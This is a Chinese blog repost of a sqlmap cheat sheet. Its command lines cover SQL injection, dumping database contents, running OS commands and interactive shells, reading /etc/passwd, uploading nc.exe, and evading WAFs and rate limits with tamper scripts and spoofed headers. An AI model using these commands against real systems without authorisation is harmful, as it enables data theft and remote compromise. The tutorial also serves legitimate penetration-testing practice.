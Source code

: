 ```yaml
---
layout: post
title: "[转]【tools】SQLMAP注入工具手册"
description: ""
category: 
tags: [sql]
---
```


转自:<https://sh4dow.lofter.com/post/395c80_121497d>

# 基本的注入步骤：

    sqlmap -u "https://url/news?id=1" --dbs           #查询所有数据库
    sqlmap -u "https://url/news?id=1" --current-db          #获取当前数据库名
    sqlmap -u "https://url/news?id=1" --current-user        #获取当前用户名
    sqlmap -u "https://url/news?id=1" -D "db_name" --tables    #获取表名
    sqlmap -u "https://url/news?id=1" -D "db_name" -T "table_name"  --columns #获取列名
    sqlmap -u "https://url/news?id=1"  -D "db_name" -T "table_name" -C "column_name" --dump  #获取字段内容

注入请求选项使用：

    sqlmap -u "https://url/news?id=1"               #get注入
    sqlmap -u "https://url/news" --date "id=1"        #post注入
    sqlmap -u "https://url/news" --cookie "id=1"      #cookie注入

# 结合BurpSuite拦截的POST表单注入：

浏览器打开目标地址 https://testasp.vulnweb.com/Login.asp

配置burp代理(127.0.0.1:8080)以拦截请求

点击login表单的submit按钮

如下图，这时候Burp会拦截到了我们的登录POST请求

![](/assets/imgs/2015-08-18-01.jpg)

5. 把这个post请求复制为txt, 我这命名为search-test.txt 然后把它放至sqlmap目录下

6. 运行sqlmap并使用如下命令：./sqlmap.py -r search-test.txt -p tfUPass，这里参数 -r 是让sqlmap加载我们的post请求rsearch-test.txt，而-p 大家应该比较熟悉，指定注入用的参数。

# POST登陆框注入：

    sqlmap -u https://testasp.vulnweb.com/Login.asp  --forms     #除了截包还可以用forms选项进行自动搜索表单
    sqlmap -u https://testasp.vulnweb.com/Login.asp  --date "tfUName=123$tfUPass=456" #POST的表单参数注入

# 应对伪静态指定注入点：

    sqlmap -u "https://url/news/1*.html" --dbs       #在*插入SQL注入语句查询数据库
    sqlmap -u "https://url/news/1*/html" --dbs       #在*插入SQL注入语句查询数据库


# 指定系统及数据库：

    sqlmap -u "https://url/news?id=1" --dbms PostgreSQL        #指定数据库
    sqlmap -u "https://url/news?id=1"  --os linux           #指定数据库服务器系统

# 命令执行及交互shell：

    sqlmap -u "https://url/news?id=1" --os-cmd=ipconfig     #执行ipconfig系统命令
    sqlmap -u "https://url/news?id=1" --os-shell            #写交互shell
    sqlmap -u "https://url/news?id=1"  --sql-query "show databases;"    #执行SQL语句          
    sqlmap -u "https://url/news?id=1"  --sql-shell            #返回SQLshell

# 文件操作：

    sqlmap -u "https://url/news?id=1"  --file-read  /etc/passwd    #读取系统文件
    sqlmap -u "https://url/news?id=1"  --file-write "C:/WINDOWS/Temp/nc.exe" --file-dest "/software/nc.exe" 

查看payload及注入语句：

    sqlmap -u "https://url/news?id=1"  -v 3   

#-v 0、只显示python错误以及严重的信息；

1、同时显示基本信息和警告信息；（默认）

2、同时显示debug信息；

3、同时显示注入的payload；

4、同时显示HTTP请求；

5、同时显示HTTP响应头；

6、同时显示HTTP响应页面。

    sqlmap -u "https://url/news?id=1"  --proxy "https://127.0.0.1:8080" #配置burp代理(127.0.0.1:8080)以拦截请求注入语句

# 测试等级对HTTP头注入利用：

    sqlmap -u "https://url/news?id=1" --level 3    #--level参数来进行不同全面性的测试，默认为1，不同的参数影响了使用哪些payload，2时会进行cookie注入检测，3时会进行useragent检测

# 风险等级：

--risk   #共有三个风险等级，默认是1会测试大部分的测试语句，2会增加基于事件的测试语句，3会增加OR语句的SQL注入测试。

# 盲注添加payload语句前缀与后缀绕过WAF：

    sqlmap -u "https://url/news?id=1" -p id --suffix=" -- " --prefix=")"    #相当于https://url/news?id=1）order by 10 -- 

# 编码绕过WAF：

    sqlmap -u "https://url/news?id=1" -v 3 --dbs --tamper "space2morehash.py"  #用tamper选择编码表绕过WAF注入，更多见ramper目录

# 伪装http头绕过工具识别：

    sqlmap -u "https://url/news?id=1" --referer "https://www.baidu.com"    #从百度域超链接访问的
    sqlmap -u "https://url/news?id=1" --user-agent="Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1)" #设置浏览器信息
    sqlmap -u "https://url/news?id=1"  --mobile                 #伪装成智能手机，设定一个手机的User-Agent来模仿手机登陆

# 绕过HTTP请求限制：

    sqlmap -u "https://url/news?id=1"  --delay 2    #延迟时间为2秒，绕过请求频繁被防火墙拦截
    sqlmap -u "https://url/news?id=1"  --safe-url       #每隔一段时间去访问一个正常的页面，绕过多次错误访问后屏蔽请求
    sqlmap -u "https://url/news?id=1"  --safe-freq    #每次测试请求之后都再访问一遍安全连接，绕过多次错误访问后屏蔽请求

# 绕过URL参数值编码：

    sqlmap -u "https://url/news?id=1" --skip-urlencode   #关闭url编码，使web服务器接受url值

# 从文本中获取多个目标检测：

www.target1.com/vuln1.php?q=foobar

www.target2.com/vuln2.asp?id=1

www.target3.com/vuln3/id/1*               

    sqlmap -m  url.txt                       #将url格式保存到文件，sqlmap会逐一检测

# 启发式判断注入：

    sqlmap -u "https://url/news?id=1"  --batch --smart  #默认智能判断注入

